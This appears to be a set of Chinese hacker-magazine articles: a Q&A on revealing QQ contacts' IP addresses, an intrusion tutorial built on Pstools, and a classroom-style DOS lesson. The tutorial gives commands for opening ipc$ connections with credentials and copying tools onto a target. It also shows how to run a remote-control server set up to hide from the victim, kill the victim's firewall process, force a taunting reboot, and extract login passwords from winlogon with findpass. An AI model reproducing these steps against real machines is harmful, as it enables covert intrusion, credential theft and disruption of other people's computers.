

- 1. 为什么别人的QQ可以显示得出好友IP地址，而我的却不能呢？
- 2. 是这样的，腾讯官方推出的QQ版本是不能显示好友IP地址的，如果你使用的是这些版本的话，当然也就不可能显示出好友的IP地址了。而网上也有许多不同的QQ版本，比如QQ木子版本，QQ珊瑚虫绿色版等，这些都是可以显示出好友IP地址的。
- 3. 如何更好的让QQ显示出对方的IP地址？
- 4. 首先是使用一个可以显示好友IP地址的QQ版本，虽然不是必须的，不过，对于显示出好友的IP地址，却是非常的方便。其次是可以使用一些辅助工具，比如珊瑚虫外挂或是QQ狙击手等，这些都可以让你轻松的得到好友的IP地址。另外还有一个稍微复杂的方法，就是使用网络防火墙，比如天网等。QQ使用的是udp方式，我们可以在天网的“IP规则”里选择“udp数据包监视”，然后发信息给对方，再去查看防火墙的日志，就可以看到对方的IP地址了。最后还有一点，就是QQ的IP数据库尽可能的使用最新的，这样，查到的IP地址才更准确、更详细。

## 小鸡快跑

# Pstools 之初出江湖

RICKY 仔☆楼

## 一、前言

在2004年第1期《黑客X档案》的小鸡快跑中，Python 为小菜们详细地讲述了ipc$ 以及空连接的使用方法及其相关基础知识。而本期RICKY 仔给大家介绍的是：使用ipc$ 连接到对方计算机后，利用Pstools中几个常用工具对所造成的计算机进行信息收集等操作。按照该栏目的宗旨，我会尽量把一些基本知识都告诉大家^-^。

## Pstools

其实是个工具包的总称。工具包中工具的功能与 Windows 2000 的 Resource Kits（资源工具包）中提供的一些工具有些类似，都是为了使系统管理员更好地管理计算机。不过，Pstools 的远程管理相对来说要优秀很多。Pstools 工具包中包括了大家常用到的PsExec、PsList、和PsKill等，下面我就用实例给大家介绍一下其中几个常用到的程序。

## 二、与目标计算机建立IPCS连接

根据Python 教我们的ipc$ 连接知识，首先在CMD里用如下命令与目标计算机建立一个ipc$连接（这里我使用的目标计算机是一台局域网的计算机，IP地址为192.168.123.174，账户和密码为rickyboy）：

```
C:\>net use \\192.168.123.174\ipc$ 
"rickyboy" /user:"rickyboy"
命令成功完成。
```

接着映射对方的C盘为本地计算机的Z盘：

```
C:\>net use z: \\192.168.123.174\c$
命令成功完成。
```

OK，打开“我的电脑”看看，对方的C盘已经映射成了我们的Z盘（图1），以后我们对Z盘进行的操作，实际上就是对对方计算机C盘的操作（图2）。接着，我们就可直接在资源管理器里把Pstools里面的工具都复制到对方的计算机里面。

> 注意
> 
> 除了映射对方硬盘到本地计算机外，也可用copy命令直接在命令提示符状态把文件复制过去，不过这样没有图形界面方便。例如我们要把本地计算机C盘上的psExec.exe文件复制到对方电脑的C盘，则输入copy psExec.exe \\192.168.123.174\c$ 命令。
> 在进行这些操作时，你使用的账号必须有相应的权限及默认共享才可以！

有些刚入门的朋友可能会觉得奇怪：怎么我平时使用显示IP版本的QQ时，没有见过192.168.xxx.xxx 这样形式的IP呢？这是因为我们用QQ看到的是别人在公网中的IP，而192.168.xxx.xxx 这类IP地址是局域网内部的IP地址，如果你在网吧上网，你所在计算机的内网IP地址就是这种形式。



图1



图2

你可能又会问：可我明明在QQ中见到自己的IP地址是61.144.145.168的呀（图3）！呵呵，那其实是你所在网吧的路由器在公网中的IP地址。简单地说，例如你用QQ看到自己的IP地址显示部分是61.144.145.168:4321（冒号后面的数字表示端口），那么当别人发信息给你时，是发到路由器（61.144.145.168）的4321端口上的，然后路由器再把这些信息发送到你所在的计算机（192.168.xxx.xxx）上，这也是NAT（网络地址转换）技术的一种实现方式。关于NAT，在本期的“麻辣教师系列之初入江湖”已经讲过，这里不再赘述。



图3

## 三、实例使用说明

呵呵！事前功夫准备好以后，我们就可正式使用Pstools里面的工具了。

### 1.Psexec：一个可以远程执行程序的工作

用法：`psexec \\远程机器的ip -u -p [-c][-f][-l][-d] program [arguments]`

其中，重要的参数有：“u”和“p”分别是用户名和密码，参数“c”是要运行的、已经复制到对方计算机上的程序的路径，参数“d”则是指不等程序运行完毕就返回。
例如，我想用Remote-Anything来对目标计算机进行控制（因为这是一个远程控制软件，杀毒软件是不查杀的，爽！），那么我们首先要对它的服务端进行配置。其步骤如下：


图4


图5

首先，在本地计算机上运行软件文件夹中的slave.exe 文件，接着会在系统托盘里显示一个红色圆圈的图标。用鼠标右击它，会出现一个菜单，选择“Options”选项就可以对服务端进行端口和密码等配置了。但最重要的是，把里面“Tray Menu”下面的全部选项的勾去掉，“Log File”的勾也去掉，这样我们在用客户端进行连接时就不会漏出任何马脚了（图4）。接着点击右下角的“Create a personalized Slave. exe file”按钮，就会在Windows的目录下生成一个新的服务端文件（图5）。



最后，运行一下软件文件夹中的uninstall_slave.exe文件，这样就可以把运行在我们计算机中的服务端终止掉。好了，把生成的服务端程序复制到对方的计算机下面，接着在命令行下输入以下命令：

```
C:\ps>psexec \\192.168.123.174 c:\ps\slave.exe
```

这样，就可在对方电脑上运行服务端。然后我们在资源管理器中运行master.exe，点击左上角的“Edit”按钮，输入IP和密码后，按“Add New”按钮，对方的IP地址就会添加到程序主界面的列表中（图6），直接双击IP地址就可对服务端计算机进行控制了（图7）！




另外，如果远程计算机中没有运行Telnet服务，那么我们只需要输入以下命令就可达到和Telnet一样的效果（图8）：

```
C:\ps>psexec \\192.168.123.174 cmd.exe
```

有朋友可能会觉得奇怪，为什么这些工具的用法描述中有的参数加了方括号，而有的则没有呢？是这样的，有方括号的参数表示这个参数是可选的，通常是个工具的一些比较高级的功能，大多情况下不填也不会影响使用。

> 里面的帮助是这样描述的：Telnet为Telnet协议提供用户支持，Telnet协议是一种远程访问协议，您可以用它登录到远程计算机、网络设备或专用TCP/IP网络。利用Telnet登陆到远程计算机后，我们可像在Win2000的命令行下对该计算机进行操作。

### 2.Psinfo：一个用于收集计算机软硬件的工具

Psinfo的用法和参数：

```
psinfo [-h] [-s] [-d] [-c] \\远程机器ip -u -p
```

其中：-h：显示安装了哪些补丁包。
-s：显示装了哪些软件。
-d：显示磁盘信息。
因为上面我们已经利用Psexec得到了对方计算机的一个CMD Shell（Shell的概念Pcon在介绍ipc$连接的文章时已经介绍过，这里就不多说了），所以我们只需在Shell中Pstools所在的目录下输入psinfo就可得到结果（图9）。

在图9中我们可看到对方的CPU频率、物理内存大小和Win2000的补丁版本等信息。


图9


图10

如果我们想查看对方电脑上装了些什么软件，那么我们可以输入：`C:\ps>psinfo -s`
这样，便可得到图10的结果，安装在对方计算机上的软件便一览无遗了。

### 3.Pslist和Pskill：分别是进行进程查看和进程终止的工具，两者通常相互配合使用

Pslist用法和重要参数：

```
pslist [-x] [-t] [-s] [-r \远程机器ip] [-u username] [-p password] [name|pid]
```

其中：
-s：使用任务管理器模式实时查看进程。
-r：和-s连用的一个参数，用来指定任务管理器模式的刷新时间间隔。
-x：详细地显示出进程的所有信息。
-t：以树型方式显示进程。
一般情况下，我们只需直接输入pslist就可获取足够的进程信息了，从图11中我们可看到系统各进程的Pid和内存使用等信息。而我们可以使用Pskill来终止任何正在运行的进程。

Pskill的用法和重要参数：

```
pskill \\远程机器ip [-u username] [-p password] <process name | process id>
```

例如我们想要终止掉图11中的防火墙KvSrvXP，通过pslist我们可知道它的Pid为472，那么我们只需输入Pskill 472或者Pskill KvSrvXP就可把它终止掉（图12）。

## 小鸡快跑


> 进程（process）作为操作系统结构的基础，是一个动态的执行过程。它是一个具有独立功能的程序对某个数据集在处理机上的执行过程和分配资源的基本单位。看起来好像很深奥，通俗地讲吧，例如我们运行了金山毒霸的防火墙程序，那么这个程序就是操作系统中的一个进程。
> Pid（process id），顾名思义，就是用来区分进程的一个标识，每个正在运行的进程都会有一个自己的Pid作为标识。

### 4. Psloggedon：一个显示目前谁登陆的工具

**Psloggedon 的用法和参数：**
`Psloggedon \\远程机器ip [-l] [-s]`

其中：
- l：只显示本地登陆用户而不显示其它的网络登陆用户。
- s：不显示登陆时间。
这是一个在本地计算机上运行的工具。例如，我在自己计算机的CMD下输入：
`C:\ps>psloggedon \\192.168.123.174`
结果如图14所示，显示了对方计算机上登陆了Administrator用户，我用ipc$进行的连接也显示出来了。



### 5. Psshutdown：一个远程关机的工具

**Psshutdown 的用法和参数：**
`psshutdown [-u username [-p password]] [-s | -r | -k [-t nn][-m "消息"][-f] [-a | -l | -o] [\\远程机器ip]`

其中：
- a：取消以前执行的关机指令。
- t：离关机还有多少秒（默认是20秒）。
- s：关闭机器。
- m：要显示的信息。
- f：关机时不保存运行的程序。
- r：重启。
- l：锁定电脑。
- o：注销用户。

好了，上面讲那么多内容，是时候轻松一下了，给对方开个玩笑，重起一下吧，输入：
`C:\ps>psshutdown -t 60 -r -m "注意，本计算机已被一名字叫RICKY的超级黑客所入侵，一分钟后将重新启动计算机，请保存好你的程序数据，谢谢合作！" \\192.168.123.174`

在对方计算机还没重启之前，如果想要取消刚才的指令，我们只要输入`psshutdown -a \\192.168.123.174`便可。
结果如图15所示，对方会出现一个类似于冲击波病毒后的倒计时关机对话框，倒数一分钟后就会自动关机！



## 四、后记

许多有志于学习网络安全技术的朋友都会向我抱怨，说自己虽然很想学习黑客技术，但总苦于无从下手，不知从哪儿学起。在我看来，理论基础固然重要，但学习各种黑客软件的使用方法（特别是命令行下面的黑软）是菜鸟成为高手的必经阶段。因为有了这些工具的帮助，入侵变得容易得多。好了，嗦就到这里，希望本文会给想入门的朋友提供一点学习思路！（本文用到的工具已打包收入光盘中）

### 小技巧：利用Pslist配合findpass获取内存中的用户密码

findpass是个可通过在winlogon进程中查找用户登陆信息，来获取简单加密后的用户密码，进而破解获得明文密码的小程序。例如，目标计算机是用ricky这个账号来登陆的，那么我们只需用Pslist来查看一下winlogon这个进程的Pid是多少，然后在findpass软件的目录下输入findpass Pid，就可获取到账户密码了（图13）。
需要注意的是，findpass只能获得所有图形登陆的用户密码（本地登陆和终端服务），而telnet等不行。如果有多个登陆会话，需要以“域名/登陆用户名/winlogon进程的pid”作为参数，否则可能无法找到密码，因为每个图形登陆都由一个winlogon进程负责。以前的《黑客X档案》详细介绍过该软件的用法，网上也有相应的动画教程，这里我就不多说了。


## 小鸡快跑

### 一 黑客是这样炼成的

同学们都已坐定，等待老师前来上课。突然，狂风大作，电灯全熄！一声尖叫之后灯光重新亮起，只见一人立于讲台之上（风飘雨饰）。身穿黑色风衣，戴一黑色墨镜，头发全部竖起，上飘一缕黑烟（刚才拉电闸时不小心触电了）……

黑衣人：“大家好，我是你们的新老师风飘。由于霜风老师神秘失踪（霜风：这么夸张？我不就是封笔了嘛）以及莲蓬姐姐难产，需要PY老师去照顾（雪莲蓬：%&*#$@#￥# 看我的流光！）。我……我的意思是说（赶忙改口），姐姐写的都是好文章，太难产出了这么垃圾的文章（擦汗中……）！

好了，下面开始讲课！

风飘：我的目的是想让你们知道，成为一个黑客，不仅要有一定的技术，还要有清醒的头脑和严谨的思维！在入侵过程中，每进行一个动作都要酝酿一下，这样做会有什么后果，会产生哪几种不同的结果？并对可能产生的任何情况做好准备，比如准备相应的工具。当然，要成为一个高手，这些还远远不够的。至少你还要学会灵活运用所学的知识，不要把思路只局限在高手传授的固定入侵模式中，要把它们组合起来灵活应用。

学生X：有理有理，我知道怎么做了。

### 二 初探DOS命令

#### 1.Dir命令

风飘：现在我们进入正题！给大家讲解一下入侵过程中可能用到的几个DOS命令。这里，我只是讲解一下命令在入侵时的一些用法，其他用法《黑客X档案》以前有过介绍，在此不再赘述。

学生A：学习DOS命令？搞什么飞机？？

风飘老师：这是基础！以后都用得到。现在大多数同学都是从Windows开始接触电脑的，缺乏的正是这方面的学习。不信？哪位同学知道Dir命令是个什么东东？

学生A举手，风飘假装没看见……

风飘老师：我就说嘛，没人知道。

学生A：Dir是显示当前目录下所有的文件。

风飘老师（居然敢抢我风头！@@#%^%）：很正确，我再补充一下：Dir命令显示的文件信息最基本的有5项，分别是：主文件名、扩展名、文件长度、建立或修改文件的日期、时间。最后还会告诉你文件和文件夹的总数和剩余的磁盘空间。另外，我们可以给他加上参数“/a”，命令Dir /a将会显示目录下的所有文件，包括隐藏属性的文件。如果显示的内容太多，一屏显示不完，可以加上“|more”这个参数，这样显示完一屏幕后会出现“— More —”并停止显示，按任意键后继续显示，这个参数对其他命令也有效。

学生X：记下来了，可是老师，Dir命令要在那里用？

风飘老师：如果是Win98，在“开始→运行”中输入“command”，打开MS-DOS窗口，如果是Win2000或XP，就在“运行”里输入“CMD”，它叫做命令提示符。

学生X：那是什么东东？

风飘老师：你可以暂时把它理解为一个模拟的DOS操作系统。

#### 小菜鸟快跑脚本刷场


> 故事背景：话说在一个漆黑的夜晚，风飘飘发动政变，通过80号下水道“渗透”进《黑客X档案》，利用“DNS欺骗”引诱并成功“劫持”了我们敬爱的麻辣教授（现锁在风飘家衣柜里），取得训练班Admin权限，现在的训练班，已是风飘飘的天下！故事从此开始……

#### 风险演练场

#### 2.type和copy命令

下面说说入侵常用到的其他几个命令（转身向黑板）：

type命令：这也是个很有用的东东，type可以在屏幕上显示文件内容，常用来直接查看对方的配置文件之类的。用type文件名就可将文件内容显示在屏幕上，如type c:\autoexec.bat。

copy命令：copy的功能是复制一个或多个文件到其他目录，当然，也可把文件改名存放在当前位置。copy最常用的用法是：copy filepec [d:] [filename]，比如我们把C:盘下的r.rar复制到D:盘下，可用命令copy c:\r.rar d:\r.rar。Copy命令支持通配符，你可用“？”来代表文件名中的任意一个字符，“*”代表任意个任意字符。比如我们要把C:盘下所有的rar文件复制，可用命令copy c:\*.rar d:\。另外，copy还可用于文件的传输，例如你已同192.168.0.2建立了一个IPC$连接，并且对方开放了admin$共享，你可用命令copy c:\file.exe \\192.168.0.2\admin$\system32\file.exe把file.exe放到对方的system32目录下。有时我们要在肉鸡上创建文件，用copy也很方便，可用copy con 文件名来创建。

学生N：con是什么？我记得好像Win98的一个共享漏洞就是用的con。

风飘：对，你说的那是当对方有共享文件时，只要我们在运行中输入对方的共享目录\con\con就可让其死机。这就与这个con有关，con是系统保留的设备名，它是代表文件本身的，所以上面的用法也就是让对方不断打开自己，不死才怪！copy con filename是“复制自己”，即新建。

学生N：原来如此呀。老师以后多讲些原理性的东西呀！

风飘：没问题，继续上课。假如我们要在c:盘下新建一个名为rain.ini、内容为hacker x files的文件，用命令copy con c:\rain.ini回车后，就可以输入文件内容hacker x files了。输完后按F6或Ctrl+Z键再按回车，这样文件就创建好了！我们可用type命令来查看一下（图1）。

